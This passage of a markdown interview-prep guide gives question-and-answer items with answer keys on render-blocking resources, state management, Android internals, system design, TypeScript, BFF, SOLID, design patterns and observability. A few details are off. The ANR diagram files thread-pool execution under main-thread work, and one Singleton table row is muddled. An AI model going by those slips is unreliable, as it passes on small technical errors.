    style CSS fill:#8b5cf6,color:#fff
    style COMPOSITE fill:#22c55e,color:#fff
```

---

**Q42: What does "render-blocking" mean and what resources are render-blocking by default?**
- A) Resources that prevent JavaScript from running
- B) **Resources that pause the browser's rendering pipeline until they are downloaded and processed. CSS is render-blocking by default; JavaScript (without `async`/`defer`) is also render-blocking.**
- C) Images that slow down layout
- D) Third-party scripts that block API calls

**Answer: B**
- `<link rel="stylesheet">` — browser must download + parse CSS before building Render Tree. Move critical CSS inline; load non-critical CSS with `media="print"` + JS swap.
- `<script>` without `async`/`defer` — pauses HTML parsing. Solution: `async` (execute as soon as downloaded), `defer` (execute after DOM parsed), or move scripts to end of `<body>`.

---

## 10. State Management

**Q43: What problem does a state management library like Redux solve?**
- A) It makes API calls faster
- B) **It provides a centralized, predictable state store — solving "prop drilling" (passing state through many component layers) and enabling any component to access shared state directly**
- C) It replaces the need for a backend
- D) It manages CSS transitions

**Answer: B**
In a component tree 8 levels deep, passing data from root to a leaf through every intermediate component (even ones that don't need it) is "prop drilling." Redux/Zustand/Context + useReducer allows any component to subscribe to global state directly.

---

**Q44: What is the difference between React Context and Redux/Zustand for state management?**
- A) Context is for global state; Redux is for local state
- B) **Context is built-in and simpler — best for low-frequency global state (theme, auth). Redux/Zustand are better for high-frequency updates across many components — they avoid unnecessary re-renders through selective subscriptions.**
- C) Context causes XSS; Redux is secure
- D) They are identical in performance

**Answer: B**
Context re-renders ALL consumers when value changes — acceptable for auth or theme (changes rarely). For cart state that updates on every keystroke or a filter that changes on scroll, a selector-based store (Redux's `useSelector`, Zustand's auto-subscription) re-renders only components whose selected slice changed.

---

**Q45: What is "optimistic UI" and when is it appropriate?**
- A) A UI that assumes the server will fail and shows error states early
- B) **Updating the UI immediately as if the operation succeeded, before the server responds — then rolling back if the operation fails**
- C) Pre-fetching data before the user requests it
- D) Caching API responses indefinitely

**Answer: B**
Instagram "likes" turn red immediately when tapped — no waiting for server confirmation. If the API call fails, the heart color reverts. Best for: likes, follows, form submissions, reordering. Poor fit for: payments, data deletion, anything requiring strong consistency confirmation.

---

### Summary: Anti-patterns and Correct Approaches

| Anti-pattern | Correct Approach |
|---|---|
| Storing sensitive data in `localStorage` | Use `HttpOnly` cookies for tokens; `sessionStorage` for ephemeral, non-sensitive state |
| `SELECT *` in GraphQL equivalent (fetch all fields) | Define exact fields needed per query; use fragments |
| Polling every second for real-time data | Use WebSockets or SSE for true real-time updates |
| Inline styles for all component styling | CSS Modules, Styled Components, or utility classes (Tailwind) for maintainability |
| No error boundaries in React apps | Wrap sections in `<ErrorBoundary>` to prevent full app crash from component errors |
| Re-fetching all data on every render | Cache with React Query / SWR; use stale-while-revalidate |
| All state in Redux/global store | Prefer local component state; elevate only genuinely shared state |

---

## Additional Material from Description-Questions2-Complete.md

> Unique additions: Android deep-dive, RADIO-framework worked example, design-patterns Q&A.


> Covers: Android Deep-Dive · System Design HLD · Frontend Architecture Patterns · TypeScript · BFF Pattern · RADIO Framework · SOLID Principles · Design Patterns · Observability

---

## Table of Contents

1. [Android Deep-Dive Q&A](#1-android-deep-dive-qa)
2. [System Design HLD Q&A](#2-system-design-hld-qa)
3. [Frontend Architecture Patterns](#3-frontend-architecture-patterns)
4. [TypeScript Advanced Q&A](#4-typescript-advanced-qa)
5. [BFF Pattern Deep-Dive](#5-bff-pattern-deep-dive)
6. [RADIO Framework Worked Example](#6-radio-framework-worked-example)
7. [SOLID Principles Q&A](#7-solid-principles-qa)
8. [Design Patterns Q&A](#8-design-patterns-qa)
9. [Observability & Monitoring](#9-observability--monitoring)
10. [Security Q&A](#10-security-qa)

---

## 1. Android Deep-Dive Q&A

### AIDL — Android Interface Definition Language

**Q1: What is AIDL and when do you need it?**

**Answer:**
AIDL (Android Interface Definition Language) defines the programming interface for Inter-Process Communication (IPC) between Android apps or between an app and a Service running in a different process. When you need two processes to communicate (e.g., a bound Service in a separate process serving multiple apps), AIDL auto-generates the Binder/Proxy boilerplate code that handles marshalling and unmarshalling of data across process boundaries.

Use AIDL when:
- Your Service runs in a separate process from the client (`android:process=":remote"`)
- Multiple apps need to communicate with your Service
- You need to expose a typed API (not just simple messages)

Don't use AIDL when:
- Service is in the same process → use standard Kotlin interfaces
- Only one-way data (no return value) → use Intent + `startService()`
- Simple IPC → use Messenger (wraps AIDL)

```mermaid
flowchart LR
    APP["Client App\n(Process A)"] -->|"Calls AIDL interface\n(appears local)"| PROXY["AIDL Proxy\n(generated by aidl compiler)\nMarshals parameters\ninto Parcel"]
    PROXY -->|"IPC via Binder\n(kernel)"| STUB["AIDL Stub\n(in Service process B)\nUnmarshals Parcel\nCalls real implementation"]
    STUB --> SERVICE["Your Service\nActual implementation"]

    style APP fill:#0f172a,color:#fff
    style PROXY fill:#8b5cf6,color:#fff
    style STUB fill:#8b5cf6,color:#fff
    style SERVICE fill:#22c55e,color:#fff
```

---

**Q2: What is ANR (Application Not Responding) and how do you prevent it?**

**Answer:**
ANR occurs when the main (UI) thread is blocked for more than:
- **5 seconds** for user input events (button tap waiting for response)
- **10 seconds** for BroadcastReceiver's `onReceive()` method

The OS shows "App not responding" dialog with options to Wait or Close App.

**Causes:**
- Network call on main thread
- File I/O on main thread  
- Long computation on main thread
- Waiting on a locked resource

**Prevention:**
- Move all I/O, network, heavy computation to background threads (Coroutines, WorkManager, ExecutorService)
- Use `StrictMode` during development — it detects main-thread violations
- Monitor ANR rate in Google Play Console
- Profile with Android Studio CPU Profiler

```mermaid
flowchart TD
    MAIN["Main Thread (UI)"] --> WRONG["❌ WRONG: Heavy work on main thread\nnewFixedThreadPool().execute()\nHTTP call on main thread\ndb.query() on main thread\n→ ANR after 5 seconds"]

    MAIN --> RIGHT["✓ RIGHT: Keep main thread free\nviewModelScope.launch(Dispatchers.IO) {\n  val result = api.fetchData() // background thread\n  withContext(Dispatchers.Main) {\n    updateUI(result) // back to main thread\n  }\n}"]

    style WRONG fill:#ef4444,color:#fff
    style RIGHT fill:#22c55e,color:#fff
```

---

**Q3: What is the Looper/Handler/MessageQueue architecture in Android?**

**Answer:**
Android's threading model is built around the Looper pattern:

```mermaid
flowchart LR
    THREAD["Thread\n(Main Thread has Looper by default\nBackground threads need: Looper.prepare())"] --> LOOPER["Looper\nRuns an infinite loop\nDequeues Messages from MessageQueue\nDispatches to Handler"]
    LOOPER --> MQ["MessageQueue\nFIFO queue of Messages + Runnables\nThread-safe"]
    MQ --> HANDLER["Handler\nAttached to a Looper/Thread\nhandler.post(Runnable)\nhandler.sendMessage(Message)\nTarget for delivered messages"]

    HANDLER -.->|"Delivered back to"| THREAD

    style LOOPER fill:#0078D4,color:#fff
    style MQ fill:#8b5cf6,color:#fff
    style HANDLER fill:#22c55e,color:#fff
```

**Why it matters:**
- `Handler(Looper.getMainLooper()).post { /* runs on UI thread */ }` — the classic way to update UI from a background thread
- `HandlerThread` — a convenience class that sets up a background thread with its own Looper
- Kotlin Coroutines (`withContext(Dispatchers.Main)`) internally use this mechanism

---

**Q4: What is the difference between `Serializable` and `Parcelable` in Android?**

| | Serializable | Parcelable |
|---|---|---|
| **Source** | Java standard library | Android-specific |
| **How it works** | Reflection-based — auto-discovers all fields | Manual implementation — you write `writeToParcel` and CREATOR |
| **Performance** | Slow (uses reflection, creates many temp objects) | Fast (no reflection, optimized for Android IPC) |
| **Ease of use** | Just add `implements Serializable` — zero code | `@Parcelize` annotation (Kotlin Android Extensions) — very easy now |
| **Best for** | Persistent storage (files, database), Java compatibility | Passing data between Activities via Intent, IPC between processes |
| **GC pressure** | High (reflection creates many temporary objects) | Low (writes directly to Parcel buffer) |

**Modern recommendation:** Use `@Parcelize` annotation — Kotlin compiler generates Parcelable implementation automatically.

---

**Q5: What is the ViewHolder pattern in RecyclerView and why is it important?**

**Answer:**
RecyclerView displays potentially thousands of items, but only ~10-20 are visible at once. The ViewHolder pattern eliminates repeated calls to `findViewById()` — one of the most expensive operations in Android (traverses the view tree).

```mermaid
flowchart LR
    WITHOUT["Without ViewHolder\nFor EVERY bind:\nfindViewById(R.id.title) // expensive tree walk\nfindViewById(R.id.subtitle) // expensive tree walk\nfindViewById(R.id.image) // expensive tree walk\n× 1000 items = 3000 tree traversals"] --> SLOW["Lag / jank\n< 60fps scrolling"]

    WITH["With ViewHolder\nonCreate: find views ONCE, store refs\nonBind: just use stored refs\nholder.titleView.text = item.title\nholder.imageView.setImageResource(item.icon)\nReuse ViewHolder as item scrolls off-screen"] --> FAST["60fps smooth scrolling"]

    style WITHOUT fill:#ef4444,color:#fff
    style WITH fill:#22c55e,color:#fff
    style SLOW fill:#ef4444,color:#fff
    style FAST fill:#22c55e,color:#fff
```

---

**Q6: What are the differences between `Activity`, `Fragment`, and `ViewModel` in Android?**

| | Activity | Fragment | ViewModel |
|---|---|---|---|
| **What is it** | A single focused user action; entry point for UI | Reusable UI component; nested inside Activity | Stores and manages UI-related data |
| **Owns** | UI lifecycle, window | Portion of UI within Activity | Data that should survive config changes |
| **Survives rotation** | No — recreated on rotation | No — recreated (unless retain state) | **Yes** — survives orientation change |
| **Has UI** | Yes | Yes | No — no UI; holds data and logic |
| **Use case** | Each screen or major entry point | Reusable UI sections (tabs, dialogs, lists) | Fetch/cache data; expose to Fragment/Activity |
| **Lifecycle** | `onCreate` → `onStart` → `onResume` → `onPause` → `onStop` → `onDestroy` | Mirrors Activity lifecycle + `onAttach`/`onDetach` | Created on first access; cleared on Activity/Fragment finish |

---

## 2. System Design HLD Q&A

### Data Centers & Servers

```mermaid
flowchart TD
    USER["User Request"] --> DNS["DNS Resolution\n(Domain → IP)"] --> LB["Load Balancer\n(Distributes traffic)"]
    LB --> WEB["Web Tier\n(Stateless servers)\nHorizontally scalable"]
    WEB --> CACHE["Cache Tier\n(Redis / Memcached)\nFast in-memory data"]
    WEB --> APP["Application Tier\n(Business Logic)"]
    APP --> CACHE
    APP --> DB_PRIMARY["Primary DB\n(Writes)"]
    DB_PRIMARY -->|"Replication"| DB_REPLICA["Replica DBs\n(Reads — scale horizontally)"]
    APP --> QUEUE["Message Queue\n(Async tasks)"]
    QUEUE --> WORKERS["Background Workers\n(Email, image resize, notifications)"]
    WEB --> CDN["CDN\n(Static assets)"]

    style LB fill:#0078D4,color:#fff
    style CACHE fill:#22c55e,color:#fff
    style CDN fill:#8b5cf6,color:#fff
    style QUEUE fill:#f59e0b,color:#fff
```

**Q7: Explain vertical scaling vs horizontal scaling.**

| | Vertical Scaling (Scale Up) | Horizontal Scaling (Scale Out) |
|---|---|---|
| **What** | Upgrade to bigger server (more CPU, RAM) | Add more servers |
| **Limit** | Physical hardware ceiling | Virtually unlimited |
| **Downtime** | Usually requires downtime | No downtime (rolling deploy) |
| **Cost** | Expensive at large scale | Commodity hardware |
| **Failure** | Single point of failure | Redundant — one server down = others serve |
| **Statefulness** | Easy — one box holds state | Hard — must externalize state (Redis, DB) |
| **Best for** | Databases (until sharding needed) | Web servers, API servers, workers |

---

**Q8: What is database sharding and when is it needed?**

**Answer:**
Sharding is horizontal partitioning of a database — distributing data across multiple database servers (shards), each holding a subset of the total data.

```mermaid
flowchart LR
    APP["Application"] -->|"userId % 3 = 0"| SHARD0["Shard 0\nUsers 0, 3, 6, 9..."]
    APP -->|"userId % 3 = 1"| SHARD1["Shard 1\nUsers 1, 4, 7, 10..."]
    APP -->|"userId % 3 = 2"| SHARD2["Shard 2\nUsers 2, 5, 8, 11..."]

    style APP fill:#0f172a,color:#fff
    style SHARD0 fill:#0078D4,color:#fff
    style SHARD1 fill:#22c55e,color:#fff
    style SHARD2 fill:#8b5cf6,color:#fff
```

**Sharding strategies:**
- **Range-based**: users A-M on shard 1; N-Z on shard 2. Simple but may create "hot" shards.
- **Hash-based**: `hash(userId) % N`. Uniform distribution; hard to re-shard.
- **Directory-based**: Lookup table maps key → shard. Flexible; lookup table is a bottleneck.

**Challenges:** Cross-shard joins are complex; shard key must be chosen wisely; rebalancing shards requires data migration.

---

**Q9: What is the N+1 query problem and how is it resolved?**

**Answer:**
N+1 occurs when fetching a list of N items, then making one additional query per item to fetch related data — totaling N+1 queries.

Example: Fetch 100 posts (1 query), then for each post fetch its author (100 queries) = 101 queries instead of 2.

**Solutions:**
1. **Eager loading** (JOINs or DataLoader) — fetch posts and authors in 2 queries; join in application
2. **GraphQL DataLoader** — batches all author requests into one query per request cycle
3. **ORM include/join**: `db.posts.findMany({ include: { author: true } })` — generates efficient JOIN

---

**Q10: What is eventual consistency and when is it acceptable?**

**Answer:**
In distributed systems, **strong consistency** guarantees all nodes see the same data simultaneously after a write. **Eventual consistency** allows nodes to temporarily diverge — they will converge to the same state *eventually* (in seconds/milliseconds after replication).

**Eventual consistency is acceptable when:**
- Social feeds (seeing a post 1 second late is fine)
- Product reviews (review appearing after 5 seconds is acceptable)
- Profile updates (avatar change propagating with small delay is fine)

**Strong consistency is required when:**
- Bank account balance (you should never see a stale balance after a transfer)
- Inventory reservation (two users can't buy the last item simultaneously)
- Authentication token validation (must be valid/revoked in real-time)

---

**Q11: What is an ElasticSearch / ELK stack and when would you use it?**

```mermaid
flowchart LR
    SOURCES["Application Logs\nMetrics\nEvents"] --> LOGSTASH["Logstash\n(Ingest + transform pipeline)\nFilter, parse, enrich"]
    SOURCES --> BEATS["Filebeat / Metricbeat\n(Lightweight shippers\nrun on each server)"]
    LOGSTASH --> ES["Elasticsearch\n(Distributed full-text search engine)\nJSON documents\nInverted index\nNear-real-time search"]
    BEATS --> ES
    ES --> KIBANA["Kibana\n(Visualization layer)\nDashboards, log search,\nalerts, anomaly detection"]

    style LOGSTASH fill:#f59e0b,color:#fff
    style ES fill:#22c55e,color:#fff
    style KIBANA fill:#0078D4,color:#fff
```

**When to use ElasticSearch:**
- Full-text search with relevance scoring (not possible with SQL LIKE)
- Log aggregation and analysis (ELK/EFK stack)
- Autocomplete / typeahead with fuzzy matching
- Analytics over large datasets in near-real-time

**When NOT to use ElasticSearch:**
- Primary database (no ACID transactions, no referential integrity)
- Simple CRUD — SQL is simpler
- Very small datasets — overhead not worth it

---

## 3. Frontend Architecture Patterns

**Q12: What is the key difference between MVVM and MVI?**

```mermaid
flowchart LR
    subgraph MVVM ["MVVM — Two-Way Binding"]
        V1["View"] <-->|"Observes / binds\n(can be complex)"| VM1["ViewModel"]
        VM1 <--> M1["Model"]
    end

    subgraph MVI ["MVI — Unidirectional Data Flow"]
        V2["View\n(renders State,\ndispatches Intents)"] -->|"User Intents\n(Click, Scroll, Type)"| M2["Model\n(State + Reducer)\nReducer: (State, Intent) → NewState"]
        M2 -->|"New State\n(immutable, single source of truth)"| V2
    end

    style VM1 fill:#0078D4,color:#fff
    style M2 fill:#22c55e,color:#fff
```

**Key difference:** MVVM allows ViewModel to modify View's state in multiple places (imperative updates). MVI enforces that all state changes go through a single Reducer function — making state transitions predictable and testable. MVI is essentially Redux for mobile.

---

**Q13: How does Clean Architecture enforce the Dependency Rule?**

**Answer:**

```mermaid
flowchart TD
    subgraph LAYERS ["Clean Architecture Layers (outer → inner)"]
        FRAMEWORK["Frameworks & Drivers\n(React, Express, SQLite, REST)"] 
        ADAPTER["Interface Adapters\n(Controllers, Presenters, ViewModels, Repositories Impl)"]
        USECASE["Application Business Rules\n(Use Cases / Interactors)"]
        ENTITY["Enterprise Business Rules\n(Entities — core domain models)"]
    end

    FRAMEWORK -->|"depends on"| ADAPTER -->|"depends on"| USECASE -->|"depends on"| ENTITY

    RULE["Dependency Rule:\nSource code can only point inward\nENTITY has ZERO imports from outer layers\nCan swap React for Vue without touching Use Cases"]

    style ENTITY fill:#22c55e,color:#fff
    style USECASE fill:#0078D4,color:#fff
    style ADAPTER fill:#8b5cf6,color:#fff
    style FRAMEWORK fill:#f59e0b,color:#fff
    style RULE fill:#ef4444,color:#fff
```

**In practice:** A `PlaceOrderUseCase` class imports only `OrderRepository` interface (defined in the same inner ring). The actual `SQLiteOrderRepository` implementation (outer ring) depends on that interface — not vice versa. You can swap SQLite for PostgreSQL without touching `PlaceOrderUseCase`.

---

**Q14: What is the Facade pattern and how is it used in frontend?**

**Answer:**
Facade provides a simplified interface to a complex subsystem. The caller doesn't need to know about all the moving parts inside.

**Frontend example:**
```typescript
// WITHOUT FACADE: caller must know internals
const response = await fetch('/api/users', {
  method: 'GET',
  headers: { 'Authorization': `Bearer ${getToken()}`, 'Content-Type': 'application/json' },
  signal: AbortSignal.timeout(5000)
})
if (!response.ok) { /* retry logic ... */ }
const data = await response.json()

// WITH FACADE: simple interface hiding complexity
const data = await apiClient.get<User[]>('/users')
// apiClient.get() internally handles: auth headers, retry, timeout, error handling, JSON parsing
```

The `apiClient` Facade hides `fetch`, token refresh, retry logic, error normalization — callers just call `.get()` / `.post()`.

---

## 4. TypeScript Advanced Q&A

**Q15: What is the difference between `unknown` and `any` in TypeScript?**

| | `any` | `unknown` |
|---|---|---|
| **Assignment** | Assignable to/from anything | Can receive any value, but can't be assigned without narrowing |
| **Operations** | No type checking — you can call any method | Must narrow type before use |
| **Safety** | Opt out of type system — unsafe | Safe — forces you to check the type first |
| **When to use** | Legacy JS migration, truly dynamic values (escape hatch) | API responses, user input — you get *something* but must handle all types |

```typescript
// any — unsafe, no errors (type checking disabled)
let x: any = "hello"
x.toFixed(2) // TypeScript is fine with this — runtime error!

// unknown — safe, must narrow before use
let y: unknown = "hello"
if (typeof y === "string") {
  y.toUpperCase() // OK — narrowed to string
}
y.toUpperCase() // Error: Object is of type 'unknown'
```

---

**Q16: What are TypeScript Generics and why are they useful?**

**Answer:**
Generics allow writing type-safe code that works with multiple types without losing type information.

```typescript
// Without generics — loses type info
function getFirst(arr: any[]): any {
  return arr[0]
}
const name = getFirst(["Alice", "Bob"]) // name is 'any' — no autocomplete, no safety

// With generics — type flows through
function getFirst<T>(arr: T[]): T {
  return arr[0]
}
const name = getFirst(["Alice", "Bob"]) // name is 'string' — type inference works!
const num = getFirst([1, 2, 3])         // num is 'number'

// Real-world: typed API response
async function fetchData<T>(url: string): Promise<T> {
  const response = await fetch(url)
  return response.json() as T
}
const users = await fetchData<User[]>('/api/users') // users is User[]
```

---

**Q17: What are TypeScript Decorators and where are they used?**

**Answer:**
Decorators are a stage-3 TC39 proposal (stable in TypeScript 5+) and experimental feature for adding metadata or transforming classes, methods, properties, or parameters.

```typescript
// Class decorator — adds logging to all method calls
function WithLogging(constructor: Function) {
  console.log(`Class ${constructor.name} instantiated`)
}

@WithLogging
class UserService {
  getUser(id: string) { /* ... */ }
}

// Method decorator — measures execution time
function Trace(target: any, key: string, descriptor: PropertyDescriptor) {
  const original = descriptor.value
  descriptor.value = async function(...args: any[]) {
    const start = Date.now()
    const result = await original.apply(this, args)
    console.log(`${key} took ${Date.now() - start}ms`)
    return result
  }
}
```

**Common usage:** NestJS (`@Controller`, `@Get`, `@Injectable`), Angular (`@Component`, `@Input`), TypeORM (`@Entity`, `@Column`), class-validator (`@IsEmail`, `@MinLength`).

---

**Q18: What is the difference between `interface` and `type` for defining function signatures?**

```typescript
// Both can define function types
interface Formatter {
  (value: string): string
}

type Formatter = (value: string) => string

// IMPORTANT DIFFERENCE: interface can be extended/merged
interface Animal {
  name: string
}
interface Animal {  // Declaration merging — adds to same interface
  age: number
}
// Animal now has both name and age

// type cannot be redeclared
type Animal = { name: string }
type Animal = { age: number } // Error: Duplicate identifier 'Animal'
```

**Rule of thumb:** Use `interface` for object shapes that may be extended (especially in library code). Use `type` for unions, intersections, computed types, and function types.

---

**Q19: What are TypeScript `keyof` and `typeof` operators?**

```typescript
// keyof — produces a union of all keys of a type
interface User {
  id: number
  name: string
  email: string
}
type UserKeys = keyof User // "id" | "name" | "email"

function getProperty<T, K extends keyof T>(obj: T, key: K): T[K] {
  return obj[key]
}
getProperty(user, "name")  // TypeScript knows return type is string
getProperty(user, "age")   // Error: "age" is not a key of User

// typeof — gets the type of a value (inferred from runtime value)
const defaultConfig = { theme: "dark", lang: "en", fontSize: 14 }
type Config = typeof defaultConfig
// Config is: { theme: string; lang: string; fontSize: number }
```

---

## 5. BFF Pattern Deep-Dive

```mermaid
flowchart TD
    subgraph PROBLEM ["Problem: One API for All Clients"]
        GENERIC_API["Generic Backend API\n- Returns ALL fields (over-fetch for mobile)\n- Cannot handle different auth schemes\n- Aggregation logic pushed to each frontend client\n- Mobile and web get same payload shape"]
    end

    subgraph SOLUTION ["Solution: Backend for Frontend"]
        WEB_CLIENT2["Web Client\n(React, Next.js)"] --> WEB_BFF2["Web BFF\n(Node.js / Next.js API Routes)\n- Aggregates: user + orders + recommendations\n- Returns rich payload optimized for large screen\n- Server-side session handling\n- Can render server components"]

        MOB_CLIENT2["Mobile Client\n(iOS / Android)"] --> MOB_BFF2["Mobile BFF\n(.NET Minimal API / Express)\n- Lightweight: only essential fields\n- JWT-based auth optimized for native apps\n- Push notification token registration\n- Handles poor connectivity edge cases"]

        WEB_BFF2 --> BACKEND["Downstream Microservices\n(User Service, Order Service,\nProduct Service, Recommendation Engine)"]
        MOB_BFF2 --> BACKEND
    end

    style GENERIC_API fill:#ef4444,color:#fff
    style WEB_BFF2 fill:#0078D4,color:#fff
    style MOB_BFF2 fill:#22c55e,color:#fff
    style BACKEND fill:#0f172a,color:#fff
```

**Q20: What are the main responsibilities of a BFF?**

| Responsibility | Example |
|---|---|
| **Request aggregation** | Merge `/users/{id}` + `/orders?userId={id}` + `/recommendations/{userId}` into one response |
| **Response transformation** | Convert ISO date strings to user's local timezone; format prices to locale currency |
| **Authentication** | Handle OAuth token exchange; manage session cookies; inject auth headers to downstream calls |
| **Protocol translation** | Accept REST from client → call gRPC downstream services |
| **Client-specific optimization** | Mobile BFF compresses images; web BFF includes additional metadata for SEO |
| **Error handling** | Translate downstream errors to client-friendly messages; implement retry for downstream |
| **Rate limiting** | Protect downstream services from frontend load spikes |

---

## 6. RADIO Framework Worked Example

### Design: "Twitter/X-like News Feed"

```mermaid
flowchart LR
    R["R — Requirements\nFunctional:\n• View personalized feed (posts from followed users)\n• Infinite scroll\n• Like/Retweet/Comment\n• Real-time new post notifications\n\nNon-Functional:\n• < 2s initial load\n• 100M DAU\n• 99.9% availability\n• Offline: show last 50 cached posts"] --> A

    A["A — Architecture\n• Next.js SSG for initial shell\n• Client-side infinite scroll\n• WebSocket connection for real-time updates\n• BFF aggregates user service + post service + media service\n• CDN for images + static assets\n• Redis for feed cache"] --> D

    D["D — Data Model & API\nPost: { id, authorId, content, mediaUrls[], likes, createdAt }\nGET /feed?cursor=<timestamp>&limit=20 (cursor pagination)\nWS /realtime — push new post notifications\nPOST /posts/{id}/like — optimistic UI"] --> I

    I["I — Interface & Optimizations\n• IntersectionObserver for infinite scroll trigger\n• React Query with stale-while-revalidate for feed cache\n• Images: lazy-loaded, srcset for DPR, WebP format\n• Service Worker caches last 50 posts offline\n• Debounce search input 300ms\n• Critical CSS inline, rest async"] --> O

    O["O — Observability\n• Sentry for JS errors + performance\n• LCP target < 2.5s, CLS < 0.1\n• Feature flag: disable WebSockets fallback to SSE\n• A/B test: chronological vs algorithmic feed\n• Synthetic monitoring on key user journeys"]

    style R fill:#0078D4,color:#fff
    style A fill:#8b5cf6,color:#fff
    style D fill:#22c55e,color:#fff
    style I fill:#f59e0b,color:#fff
    style O fill:#ef4444,color:#fff
```

---

## 7. SOLID Principles Q&A

**Q21: Give a real frontend/mobile example of violating and fixing the Single Responsibility Principle.**

**Violation:**
```typescript
// GOD COMPONENT — does everything
const ProductPage = () => {
  const [products, setProducts] = useState([])
  const [loading, setLoading] = useState(false)
  const [user, setUser] = useState(null)

  useEffect(() => {
    fetch('/api/products').then(r => r.json()).then(setProducts)  // fetching
    fetch('/api/user').then(r => r.json()).then(setUser)           // fetching
  }, [])

  const formatPrice = (p) => `$${(p / 100).toFixed(2)}`           // formatting
  const validateAuth = () => user?.role === 'admin'                // auth logic
  const trackView = () => analytics.track('product_view')         // analytics

  return ( /* rendering */ )
}
```

**Fix:**
```typescript
// Separate responsibilities
const useProducts = () => { /* fetching only */ }
const useAuth = () => { /* auth only */ }
const formatPrice = (cents: number) => `$${(cents / 100).toFixed(2)}` // utility
const ProductCard = ({ product }) => { /* rendering only */ }
const ProductPage = () => { /* orchestrates, renders */ }
```

---

**Q22: What does the Open/Closed Principle look like in a TypeScript UI pattern?**

**Violation:** Adding a new chart type requires modifying existing code:
```typescript
function renderChart(type: string, data: any[]) {
  if (type === 'bar') { renderBarChart(data) }
  else if (type === 'line') { renderLineChart(data) }
  else if (type === 'pie') { /* add more if/else to ADD a new type */ }
}
```

**Fix:** Open for extension (add new type), closed for modification:
```typescript
interface Chart {
  render(data: any[]): JSX.Element
}

class BarChart implements Chart {
  render(data: any[]) { return <BarChartComponent data={data} /> }
}
class LineChart implements Chart {
  render(data: any[]) { return <LineChartComponent data={data} /> }
}
// To add PieChart: new class PieChart implements Chart — no existing code changes
class ChartFactory {
  static create(type: string): Chart { /* map type to class */ }
}
```

---

**Q23: Explain the Dependency Inversion Principle in an iOS/Android context.**

```mermaid
flowchart LR
    subgraph WRONG ["Wrong — Tight Coupling"]
        VC["ViewController / Activity"] -->|"Directly imports and creates"| COREDATA["CoreData / Room\n(Specific implementation)"]
    end

    subgraph RIGHT ["Right — Dependency Inversion"]
        VC2["ViewController / Activity"] -->|"Depends on abstraction"| REPO["FeedRepository\n(Protocol / Interface)"]
        REPO -->|"Concrete implementation injected"| CD_IMPL["CoreDataFeedRepository"]
        REPO -->|"Test implementation injected"| MOCK_REPO["MockFeedRepository\n(returns test data in-memory)"]
    end

    style COREDATA fill:#ef4444,color:#fff
    style REPO fill:#22c55e,color:#fff
    style MOCK_REPO fill:#0078D4,color:#fff
```

High-level modules (ViewController, ViewModel) define what they need via abstractions (protocols/interfaces). Low-level modules (CoreData, Room, network layer) implement those abstractions. The DI container wires them together at runtime.

---

## 8. Design Patterns Q&A

**Q24: What is the Observer pattern and how is it used in modern frameworks?**

**Answer:**
Observer defines a one-to-many relationship: when the Subject (Observable) state changes, all registered Observers are notified automatically.

```mermaid
flowchart LR
    SUBJECT["Subject / Observable\n(holds state)\n+ subscribe(Observer)\n+ unsubscribe(Observer)\n+ notify() — calls all observers"] -->|"Notifies on change"| O1["Observer 1\n(UI Component A)"]
    SUBJECT -->|"Notifies on change"| O2["Observer 2\n(UI Component B)"]
    SUBJECT -->|"Notifies on change"| O3["Observer 3\n(Analytics Tracker)"]

    style SUBJECT fill:#0f172a,color:#fff
    style O1 fill:#22c55e,color:#fff
    style O2 fill:#22c55e,color:#fff
    style O3 fill:#8b5cf6,color:#fff
```

**Framework implementations:**
- React: `useState` (Zustand store) + component re-renders on state change
- SwiftUI: `@ObservableObject` + `@Published` properties
- Android: `LiveData.observe(lifecycleOwner, observer)`
- RxJS: `Observable.subscribe(observer)`
- DOM: `addEventListener('click', handler)`

---

**Q25: What is the Strategy pattern and when should you use it on the frontend?**

**Answer:**
Strategy defines a family of algorithms, encapsulates each one, and makes them interchangeable. The client selects the strategy at runtime.

```typescript
// Strategy interface
interface SortStrategy<T> {
  sort(items: T[]): T[]
}

// Concrete strategies
class PriceAscending implements SortStrategy<Product> {
  sort(items: Product[]) { return [...items].sort((a, b) => a.price - b.price) }
}
class RatingDescending implements SortStrategy<Product> {
  sort(items: Product[]) { return [...items].sort((a, b) => b.rating - a.rating) }
}
class Newest implements SortStrategy<Product> {
  sort(items: Product[]) { return [...items].sort((a, b) => b.createdAt - a.createdAt) }
}

// Context: user selects sort strategy
const productList = new ProductList(new PriceAscending()) // inject at runtime
productList.setStrategy(new RatingDescending()) // swap strategy without changing ProductList
```

---

**Q26: What is the Singleton pattern, when is it useful, and when is it an anti-pattern?**

**Answer:**

| | Appropriate Singleton | Anti-pattern Singleton |
|---|---|---|
| **Example** | Logger, Analytics, EventBus | NetworkManager, DataRepository |
| **Why OK** | True single instance needed (one logger per app) | Creates hidden global state — hard to test |
| **Why problematic for the bad example** | NetworkManager as singleton makes unit testing impossible (can't inject mock) | — |
| **Solution for anti-pattern** | Use DI container — inject `NetworkService` protocol, not a concrete singleton | — |

---

## 9. Observability & Monitoring

### Monitoring Stack

```mermaid
flowchart TD
    SOURCES2["Data Sources"] --> LOGS["Application Logs\n(Winston, Pino, console.log\nStructured: JSON format\nLogLevel: debug/info/warn/error)"]
    SOURCES2 --> METRICS["Metrics\n(Prometheus, StatsD, Datadog agent)\nCounters, Gauges, Histograms\nRequest rate, error rate, latency p95/p99"]
    SOURCES2 --> TRACES["Distributed Traces\n(OpenTelemetry, Jaeger, Zipkin)\nEnd-to-end request tracing\nIdentify slow dependencies"]

    LOGS --> AGGREGATOR["Log Aggregator\n(ELK / Datadog / Splunk / Grafana Loki)"]
    METRICS --> DASHBOARD["Dashboards\n(Grafana, Datadog, CloudWatch)"]
    TRACES --> TRACE_UI["Trace Explorer\n(Jaeger, Zipkin, Datadog APM)"]

    DASHBOARD --> ALERT["Alerting\nPagerDuty / OpsGenie\nAlert on: error rate spike,\nlatency > SLO, crash rate increase"]

    style LOGS fill:#0078D4,color:#fff
    style METRICS fill:#22c55e,color:#fff
    style TRACES fill:#8b5cf6,color:#fff
    style ALERT fill:#ef4444,color:#fff
```

**Q27: What is the difference between logging, metrics, and traces?**

| | Logs | Metrics | Traces |
|---|---|---|---|
| **What** | Timestamped events with context | Numeric measurements over time | End-to-end path of a single request |
| **Format** | Text / JSON records | Number + labels (Prometheus format) | Spans with parent/child relationships |
| **Best for** | Debugging specific errors; audit trails | Alerting; dashboards; SLOs | Performance bottleneck identification; dependency mapping |
| **Cardinality** | High (every event) | Low-Medium (label combos) | High (one trace per request) |
| **Storage cost** | High | Low | Medium |

---

**Q28: What is an SLO (Service Level Objective)?**

**Answer:**
An SLO is a target measurement for a service's reliability:
- **SLA** (Service Level Agreement) — contractual commitment to customers
